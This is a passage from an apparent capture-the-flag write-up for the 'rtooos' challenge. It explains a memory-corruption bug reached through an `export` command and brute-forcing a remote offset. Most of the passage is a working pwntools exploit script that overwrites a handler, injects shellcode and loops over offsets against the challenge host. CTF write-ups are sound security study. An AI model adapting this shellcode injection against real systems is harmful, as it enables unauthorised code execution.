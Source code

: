 
Initially I was thinking about `malloc`, which should returns `null` when the size(`vm_mem + v22`) is too big, but this does not seem work and I am not sure why; then I found `atoi` works fine because `atoi("flag")` returns 0.

However, even if in the same machine the offset from `vm_mem` to program base is constant, in the remote machine that offset is different from the local one. I realized this when I run this program on different MacOS machines (thanks @[PK398](https://github.com/PK398) for providing his MacOS machine that helps my analysis :D). So, I tried to brute force to find the correct offset.The method to execute shellcode is same as the technique used to modify `"honcho"` global string, but this time we change the codes in handler of `export` command (this is chosen because codes here are long, so less likely to rewrite something that should not be modified). 

```python
def rce(sh,shellcode):
	export_handler = 0xC43
	export(sh, str(7) * l, 'A' * (l+1+3) + p16(export_handler))
	export(sh, '8' * l, (val_len(l) - (l+1) - 2) * '8' + '$' + '7' * l)
	no_zero(shellcode)
	export(sh, '0' * l, shellcode)
	sh.send("export ")
def leak_prog(off):
	sh = remote("rtooos.quals2019.oooverflow.io", 5000)
	img_addr = (-(0x7966a)+off) & 0xffffffffffffffff

	allocate_pre(sh)

	puts = 0x76
	read = 0x69
	#asm("this: jmp this")
	shellcode = '''
	mov rdi,%s;
	push 0x41;
	pop rsi;
	sub rdi,rsi;
	xor rax,rax;
	mov al,0x76;
	call rax;
	this:
	jmp this;
	''' % (hex(img_addr + 0x41))
	payload = asm(shellcode)
	rce(sh, payload)
	try:
		ret = sh.recvuntil("\n")
		if len(ret) > 1:
			print_hex(ret)
			sh.interactive()
		if ret[:3] == "\x48\x89\xC3":
			ret = True
		else:
			ret = False
		sh.close()
	except Exception as e:
		ret = False
		sh.close()
		return ret

for i in xrange(-0x30, 0x30):
	print "testing " + hex(i)
	if leak_prog(i * 0x1000):
		print hex(i * 0x1000)
		input()
```
